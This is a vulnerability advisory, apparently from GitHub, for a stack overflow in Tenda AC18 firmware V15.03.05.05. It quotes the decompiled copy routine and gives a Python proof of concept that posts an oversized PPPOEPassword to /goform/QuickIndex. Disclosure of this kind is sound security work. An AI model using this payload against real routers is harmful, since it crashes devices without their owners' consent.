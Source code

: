 ## Overview

- The device's official website: https://www.tenda.com.cn/product/overview/AC18.html

- Firmware download website: https://www.tenda.com.cn/download/detail-2610.html

## Affected version

V15.03.05.05

## Vulnerability details

The Tenda AC18 V15.03.05.05 firmware has a stack overflow vulnerability in the `formQuickIndex` function. The `v8` variable receives the `PPPOEPassword` parameter from a POST request and is later assigned to the `s` variable, which is fixed at 72 bytes. However, since the user can control the input of  `PPPOEPassword`, in function `sub_4F7C0`, the statement: 

```c
_BYTE *__fastcall sub_4F7C0(_BYTE *result, _BYTE *a2)
{
  _BYTE *v2; // [sp+0h] [bp-Ch]
  _BYTE *v3; // [sp+4h] [bp-8h]

  v3 = result;
  v2 = a2;
  if ( result && a2 )
  {
    while ( *v3 )
    {
      if ( *v3 == 92 )
        ++v3;
      *v2++ = *v3++;
    }
    *v2 = 0;
  }
  return result;
}
```

can cause a stack overflow. The user-provided  `PPPOEPassword` can exceed the capacity of the `s` array, triggering this security vulnerability.

![image-20240306173835516](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240306173835516.png)

![image-20240306173852758](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240306173852758.png)

![image-20240306174000517](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240306174000517.png)

![image-20240306174138778](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240306174138778.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/QuickIndex"
payload = b"a"*1000

data = {"PPPOEPassword": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240306173457625](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240306173457625.png)